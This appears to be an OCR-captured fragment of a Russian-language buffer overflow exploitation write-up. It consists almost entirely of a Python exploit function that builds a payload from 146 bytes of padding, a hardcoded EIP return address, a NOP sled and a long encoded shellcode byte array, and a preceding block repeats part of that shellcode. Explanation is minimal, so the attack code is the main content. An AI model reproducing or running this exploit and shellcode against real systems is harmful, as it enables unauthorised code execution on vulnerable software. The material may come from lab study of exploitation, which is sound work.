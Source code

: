 ```bash
stack += b"\x2e\xd5\x8b\x03\xc7\x4c\x96\xdf\x76\x90\x0c\x9a"
stack += b"\xb9\x1a\xa3\x5b\x77\xeb\xce\x4f\xe0\x1b\x85\x2d"
stack += b"\xa7\x24\x33\x59\x2b\xb6\xd8\x99\x22\xab\x76\xce"
stack += b"\x63\x1d\x8f\x9a\x99\x04\x39\xb8\x63\xd0\x02\x78"
stack += b"\xb8\x21\x8c\x81\x4d\x1d\xaa\x91\x8b\x9e\xf6\xc5"
stack += b"\x43\xc9\xa0\xb3\x25\xa3\x02\x6d\xfc\x18\xcd\xf9"
stack += b"\x79\x53\xce\x7f\x86\xbe\xb8\x9f\x37\x17\xfd\xa0"
stack += b"\xf8\xff\x09\xd9\xe4\x9f\xf6\x30\xad\x90\xbc\x18"
stack += b"\x84\x38\x19\xc9\x94\x24\x9a\x24\xda\x50\x19\xcc"
stack += b"\xa3\xa6\x01\xa5\xa6\xe3\x85\x56\xdb\x7c\x60\x58"
stack += b"\x48\x7c\xa1"
```  

  
Корректирую скрипт  
```python
def run_exploit():
    offset = 146
    junk   = b'A' * offset
    EIP    = 0x080414c3
    nop    = '\x90' * 16

    #exclude_list = ['\\x00']
    #stack = ''.join(f'\\x{x:02x}' for x in range(1, 256) if f'\\x{x:02x}' not in exclude_list)

    stack = b""
    stack += b"\xbb\x42\xcb\xf8\x39\xda\xc5\xd9\x74\x24\xf4\x58"
    stack += b"\x29\xc9\xb1\x52\x31\x58\x12\x03\x58\x12\x83\x82"
    stack += b"\xcf\x1a\xcc\xfe\x38\x58\x2f\xfe\xb8\x3d\xb9\x1b"
    stack += b"\x89\x7d\xdd\x68\xba\x4d\x95\x3c\x37\x25\xfb\xd4"
    stack += b"\xcc\x4b\xd4\xdb\x65\xe1\x02\xd2\x76\x5a\x76\x75"
    stack += b"\xf5\xa1\xab\x55\xc4\x69\xbe\x94\x01\x97\x33\xc4"
    stack += b"\xda\xd3\xe6\xf8\x6f\xa9\x3a\x73\x23\x3f\x3b\x60"
    stack += b"\xf4\x3e\x6a\x37\x8e\x18\xac\xb6\x43\x11\xe5\xa0"
    stack += b"\x80\x1c\xbf\x5b\x72\xea\x3e\x8d\x4a\x13\xec\xf0"
    stack += b"\x62\xe6\xec\x35\x44\x19\x9b\x4f\xb6\xa4\x9c\x94"
    stack += b"\xc4\x72\x28\x0e\x6e\xf0\x8a\xea\x8e\xd5\x4d\x79"
    stack += b"\x9c\x92\x1a\x25\x81\x25\xce\x5e\xbd\xae\xf1\xb0"
    stack += b"\x37\xf4\xd5\x14\x13\xae\x74\x0d\xf9\x01\x88\x4d"
    stack += b"\xa2\xfe\x2c\x06\x4f\xea\x5c\x45\x18\xdf\x6c\x75"
    stack += b"\xd8\x77\xe6\x06\xea\xd8\x5c\x80\x46\x90\x7a\x57"
    stack += b"\xa8\x8b\x3b\xc7\x57\x34\x3c\xce\x93\x60\x6c\x78"
    stack += b"\x35\x09\xe7\x78\xba\xdc\xa8\x28\x14\x8f\x08\x98"
    stack += b"\xd4\x7f\xe1\xf2\xda\xa0\x11\xfd\x30\xc9\xb8\x04"
    stack += b"\xd3\xfc\x29\x6e\x33\x69\x50\x6e\x22\x35\xdd\x88"
    stack += b"\x2e\xd5\x8b\x03\xc7\x4c\x96\xdf\x76\x90\x0c\x9a"
    stack += b"\xb9\x1a\xa3\x5b\x77\xeb\xce\x4f\xe0\x1b\x85\x2d"
    stack += b"\xa7\x24\x33\x59\x2b\xb6\xd8\x99\x22\xab\x76\xce"
    stack += b"\x63\x1d\x8f\x9a\x99\x04\x39\xb8\x63\xd0\x02\x78"
    stack += b"\xb8\x21\x8c\x81\x4d\x1d\xaa\x91\x8b\x9e\xf6\xc5"
    stack += b"\x43\xc9\xa0\xb3\x25\xa3\x02\x6d\xfc\x18\xcd\xf9"
    stack += b"\x79\x53\xce\x7f\x86\xbe\xb8\x9f\x37\x17\xfd\xa0"
    stack += b"\xf8\xff\x09\xd9\xe4\x9f\xf6\x30\xad\x90\xbc\x18"
    stack += b"\x84\x38\x19\xc9\x94\x24\x9a\x24\xda\x50\x19\xcc"
    stack += b"\xa3\xa6\x01\xa5\xa6\xe3\x85\x56\xdb\x7c\x60\x58"
    stack += b"\x48\x7c\xa1"

    payload = b''.join([
        junk,
        p32(EIP),
        nop,
        stack,
    ])

```